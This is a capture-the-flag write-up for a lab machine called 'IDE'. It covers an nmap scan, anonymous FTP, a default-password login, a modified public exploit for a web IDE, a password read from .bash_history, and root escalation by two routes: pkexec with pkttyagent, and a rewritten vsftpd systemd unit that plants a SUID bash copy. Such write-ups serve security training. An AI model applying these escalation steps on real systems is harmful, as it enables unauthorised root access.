










# IDE Writeup

`IP = 10.10.186.25`

> Nmap

`**script**:nmap -sCV -T4 10.10.186.25 -oN nmap/intial.txt -v -Pn`

```Nmap
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.28.252
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Mon Jan 29 17:45:07 2024 -- 1 IP address (1 host up) scanned in 126.24 seconds
```

we find another port in all scan

**Ports Open** : 21(ftp) , 22(ssh) , 80(http) , 62337(http)

Port 80 : Is a Apache Default page , We need to look for directories or entries

Port 21 : Anonymous Login is allowed , There is hidden directory in the ftp shell , in that shell there is a file(kinda hidden) Lets get the shell from the ftp shell

<figure><figcaption></figcaption></figure>

In that file, there is a note from a user1 to another user

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

Looks like there is a login page with default credentials to get into the site

We didn't find any entries in port 80

port 62337 is a login page . lets try for default password like password , Password , password123 ... we got the entry into the site creds : `john : password`

Looks like we couldn't get any way to get into the shell Let's try to search any exploit for the running service of the page

<figure><figcaption></figcaption></figure>

There are 3 different exploits , Lets use one of them

<figure><figcaption></figcaption></figure>

We need to input these following&#x20;

<figure><figcaption></figcaption></figure>

Looks like we are having an error in Response

maybe we need to change the script a little bit to make it run

<figure><figcaption></figcaption></figure>

we change to payload in order to get shell as we can see '(default)' is the original and down below we made changes

lets run and give it a shot&#x20;

<figure><figcaption></figcaption></figure>

Now we got the response as shell and now let go the port 80 and see if we got the shell&#x20;

<figure><figcaption></figcaption></figure>

We cant read the user.txt , But we found password of drac in `.bash_history`

<figure><figcaption></figcaption></figure>

Lets Login to ssh shell

Now we can grab the `user.txt`

<figure><figcaption></figcaption></figure>

#### Method 1 (pkexec)

```bash
**drac@ide:~$ find / -perm -u=s 2>/dev/null**
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/gpasswd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
```

* We can see Drac is member of the sudo , we can use pkexec
* pkexec allows us to get unauthorized access to shell
* In order to get root shell we need to open two shell
* `echo $$` to get the process id
* then in other shell `pkttyagent -p {pid}`
* now in first shell `pkexec /bin/bash`


#### Method 2 (suod -l )

From \[\[9.png]] we can see that vsftpd service is allowed to run and we can edit it in order to get the reverse shell

`/lib/systemd/system/vsftpd.service`

```bash
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/krazy; chmod +xs /tmp/krazy'
#ExecReload=/bin/kill -HUP $MAINPID
#ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

* here we are copying the /bin/bash to a temporary directory to a file
* reason why are we doing is drac doesnt have rights to writes to run sudo `Sorry, user drac is not allowed to execute '/bin/bash' as root on ide.`
* after saving the above line we have to restart the daemon `systemctl daemon-reload`
* now we have to restart the vsftpd service

<figure><figcaption></figcaption></figure>
